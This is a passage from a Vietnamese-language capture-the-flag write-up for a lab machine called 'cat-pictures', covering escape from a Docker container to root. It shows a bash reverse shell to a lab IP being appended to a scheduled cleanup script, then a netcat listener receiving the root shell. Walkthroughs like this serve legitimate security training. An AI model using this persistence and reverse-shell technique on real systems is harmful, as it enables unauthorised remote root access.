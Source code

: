 ```python
flag.txt
```

## Privilege escalation

Khi kiểm tra qua các thư mục, tôi nhận ra đây là 1 container chứ không phải 1 machine, vì nó *.dockerenv* và thư mục gốc cũng giống với docker image

```python
root@7546fa2336d6:/# ls -la
total 108
drwxr-xr-x   1 root root 4096 Mar 25  2021 .
drwxr-xr-x   1 root root 4096 Mar 25  2021 ..
-rw-------   1 root root  588 Jun  4  2021 .bash_history
-rwxr-xr-x   1 root root    0 Mar 25  2021 .dockerenv
drwxr-xr-x   1 root root 4096 Apr  9  2021 bin
drwxr-xr-x   3 root root 4096 Mar 24  2021 bitnami
drwxr-xr-x   2 root root 4096 Jan 30  2021 boot
```

Thêm 1 điều nữa, bên trong */opt/clean* có 1 file *clean.sh*, file sh này sẽ xóa hết những gì có trong thư mục */tmp*, nhưng thực sự thì điều không quan trọng lắm vì tôi chỉ cần thêm RCE vào file sh này để nó tự thực thi.

```python
root@7546fa2336d6:/# echo "bash -i >& /dev/tcp/10.6.0.191/2402 0>&1" >> opt/clean/clean.sh 
root@7546fa2336d6:/# cat opt/clean/clean.sh 
#!/bin/bash

rm -rf /tmp/*
bash -i >& /dev/tcp/10.6.0.191/2402 0>&1
root@7546fa2336d6:/#
```

Tạo listener với port 2402 và chờ thôi 

`nc -lnvp 2402`

```python
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 2402
listening on [any] 2402 ...
connect to [10.6.0.191] from (UNKNOWN) [10.10.213.118] 34968
bash: cannot set terminal process group (2329): Inappropriate ioctl for device
bash: no job control in this shell
root@cat-pictures:~# 
root@cat-pictures:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@cat-pictures:~# ls /root
ls /root
firewall
root.txt
root@cat-pictures:~# 
```
